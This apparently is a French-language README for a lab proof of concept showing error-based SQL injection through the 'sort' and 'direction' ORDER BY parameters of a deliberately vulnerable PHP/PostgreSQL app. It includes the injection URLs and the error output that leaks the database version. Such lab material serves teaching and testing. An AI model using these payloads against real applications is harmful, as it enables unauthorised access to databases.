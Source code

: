 # PoC - Exploitation des injections SQL dans les clauses ORDER BY

## Installation

```
$ docker-compose build
$ docker-compose up -d
```

![image](https://github.com/user-attachments/assets/39419bea-36df-4182-a049-6e86d2c2a09a)

## Description

L'application, développée en PHP avec l'extension PDO, permet de rechercher des utilisateurs présents dans une base de données PostgreSQL. Toutefois, les paramètres "sort" et "direction" utilisés au sein de la clause `ORDER BY` lors de l'appel à l'API sont sensibles aux injections SQL.

## Exploitation

Récupération de la version du système de base de données via le paramètre "sort" :

```sql
/users?search=&sort=(CAST((SELECT VERSION()) AS NUMERIC))&direction=ASC&page=1&maxPerPage=5
```

```
Error: SQLSTATE[22P02]: Invalid text representation: 7 ERROR:  invalid input syntax for type numeric: "PostgreSQL 15.7 (Debian 15.7-1.pgdg120+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 12.2.0-14) 12.2.0, 64-bit"
```

Récupération de la version du système de base de données via le paramètre "direction" :

```sql
/users?search=&sort=username&direction=ASC,(CAST((SELECT VERSION()) AS NUMERIC))&page=1&maxPerPage=5
```

```
Error: SQLSTATE[22P02]: Invalid text representation: 7 ERROR:  invalid input syntax for type numeric: "PostgreSQL 15.7 (Debian 15.7-1.pgdg120+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 12.2.0-14) 12.2.0, 64-bit"
```

## Démo

![](https://github.com/Sharpforce/cybersecurity-code/blob/master/exploitation-des-injections-sql-au-sein-de-la-clause-order-by/PHP-PDO-et-PostgreSQL/demo/demo.gif)

